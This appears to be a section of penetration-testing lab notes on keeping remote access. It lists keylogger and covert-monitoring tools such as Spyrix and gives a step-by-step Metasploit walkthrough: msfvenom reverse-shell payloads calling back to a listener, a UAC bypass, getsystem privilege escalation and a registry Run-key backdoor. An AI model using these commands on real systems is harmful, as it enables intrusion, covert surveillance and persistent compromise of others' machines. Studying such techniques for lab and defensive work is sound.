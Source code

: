 
### 3. Maintain Remote Access and Hide Malicious Activities
Remote code execution techniques are often performed after initially compromising a system and further expanding access to remote systems present on the target network.

#### 3.1 User system Monitoring with PowerSpy
Keylogger software

[Power Spy Lite](https://power-spy-software-lite.en.softonic.com/)

#### 3.2 System Monitoring with Spytech spyagent
Tool for monitoring user activity and capturing keystrokes.

[Spytech SpyAgent Spy Software](https://www.spytech-web.com/spyagent.shtml)

#### 3.3 User System Monitoring and Surveillance using Spyrix
Spyrix facilitates covert remote monitoring of user activities in real-time. It provides concealed surveillance via a secure web account, logging keystrokes with a keylogger, monitoring various platforms such as Facebook, WhatsApp, Skype, Email, etc. It also offers functionality of capturing screenshots, live viewing of screen and webcam feeds, continuous recording of screen and webcam activity.

#### 3.4 Maintain Persistence by Modifying Registry Run Keys
Registry keys labeled as Run and RunOnce are crafted to automatically run programs upon each user login to the system. Attackers can exploit these keys for persistence and privilege escalation.

**1st payload**
`msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe`

**2nd payload**
`msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=4444 -f exe > /home/attacker/Desktop/registry.exe`


**Steps**:
1. Copy both payloads to the target system.
2. Start listener in Kali:
  - `msfconsole`
  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set lhost 10.10.1.13`
  - `set lport 444`
3. Run 1st payload on target, gain shell.
4. Use `getuid`, then `background`.
5. Bypass UAC via:
  - `use exploit/windows/local/bypassuac_silentcleanup`
  - `set session 1`
  - `set LHOST 10.10.1.13`
  - `set TARGET 0`
  - `exploit`
6. Elevate privileges:
  - `getsystem -t 1`
  - `getuid`
  - `shell`
7. Add persistence:
  - `reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"`
8. Start listener with:
  - `msfconsole`
  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set lhost 10.10.1.13`
  - `set lport 4444`
  - `exploit`
